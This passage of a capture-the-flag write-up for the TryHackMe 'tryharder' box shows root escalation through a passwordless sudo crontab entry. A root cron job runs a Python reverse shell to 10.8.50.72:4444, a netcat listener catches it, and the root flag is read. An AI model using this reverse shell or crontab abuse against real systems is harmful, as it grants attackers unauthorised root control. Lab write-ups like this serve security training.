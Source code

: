 ## Jeff's privileges

After so many difficulties to get the user flag, I was not expecting anything from the `sudo -l` command, but was surprised to see that `jeff` was allowed to run `crontab` as `root` without password. 

~~~
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
~~~

## Crontab

Let's edit the crontab with `sudo crontab -e` and add the following line:

~~~
* * * * * python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

Now, open a listener and wait 1 minute to get a root shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.144.133] 44900
bash: cannot set terminal process group (2476): Inappropriate ioctl for device
bash: no job control in this shell
root@tryharder:~# ls -la
ls -la
total 44
drwx------  6 root root 4096 May 25 15:46 .
drwxr-xr-x 25 root root 4096 May 23 14:40 ..
lrwxrwxrwx  1 root root    9 May 11 12:34 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 12 16:31 .cache
drwx------  3 root root 4096 May 12 16:31 .gnupg
drwxr-xr-x  3 root root 4096 May 14 14:00 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
----------  1 root root  117 May 18 11:59 root.txt
-rw-r--r--  1 root root   75 May 11 13:29 .selected_editor
drwx------  2 root root 4096 May 18 12:28 .ssh
-rw-------  1 root root 1880 May 25 15:46 .viminfo
~~~

## Root flag

And access the root flag:

~~~
root@tryharder:~# cat root.txt
cat root.txt
THM{40fc54e5c0f5747dfdd35e0cc7db6ee2}

Congratz on completing my box. 
Sorry if you hated it, it was my first one :)
~~~

Root flag: `THM{40fc54e5c0f5747dfdd35e0cc7db6ee2}`

